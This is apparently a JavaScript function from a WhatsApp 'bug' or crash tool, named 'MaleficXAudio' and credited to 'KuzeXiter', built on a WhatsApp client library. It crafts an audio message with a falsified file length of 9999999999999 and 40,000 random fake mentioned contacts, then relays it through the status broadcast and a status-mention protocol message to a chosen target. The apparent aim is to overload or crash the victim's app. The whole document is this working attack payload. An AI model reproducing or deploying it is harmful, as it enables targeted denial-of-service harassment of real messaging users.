 async function MaleficXAudio(isTarget, mention = true) {
  const msg = await generateWAMessageFromContent(
    isTarget,
    {
      audioMessage: {
        url: "https://mmg.whatsapp.net/v/t62.7114-24/30579250_1011830034456290_180179893932468870_n.enc?ccb=11-4&oh=01_Q5Aa1gHANB--B8ZZfjRHjSNbgvr6s4scLwYlWn0pJ7sqko94gg&oe=685888BC&_nc_sid=5e03e0&mms3=true",
        mimetype: "audio/mpeg",
        fileSha256: "pqVrI58Ub2/xft1GGVZdexY/nHxu/XpfctwHTyIHezU=",
        fileEncSha256: "fYH+mph91c+E21mGe+iZ9/l6UnNGzlaZLnKX1dCYZS4=",
        mediaKey: "v6lUyojrV/AQxXQ0HkIIDeM7cy5IqDEZ52MDswXBXKY=",
        fileLength: "9999999999999",
        seconds: 24,
        ptt: false,
        contextInfo: {
          mentionedJid: Array.from({ length: 40000 }, () =>
            1${Math.floor(Math.random() * 500000)}@s.whatsapp.net
          )
        }
      }
    },
    {}
  );

  await sock.relayMessage("status@broadcast",  msg.message, {
      messageId: msg.key.id,
      statusJidList: [isTarget],
      additionalNodes: [
        {
          tag: "meta",
          attrs: {},
          content: [
            {
              tag: "mentioned_users",
              attrs: {},
              content: [
                {
                  tag: "to",
                  attrs: { jid: isTarget },
                  content: undefined
                }
              ]
            }
          ]
        }
      ]
    }
  );

  if (mention) {
    await sock.relayMessage(
      isTarget,
      {
        statusMentionMessage: {
          message: {
            protocolMessage: {
              key: msg.key,
              type: 25
            }
          }
        }
      },
      {
        additionalNodes: [
          {
            tag: "meta",
            attrs: { is_status_mention: "true" },
            content: undefined
          }
        ]
      }
    );
  }
}
© KuzeXiter
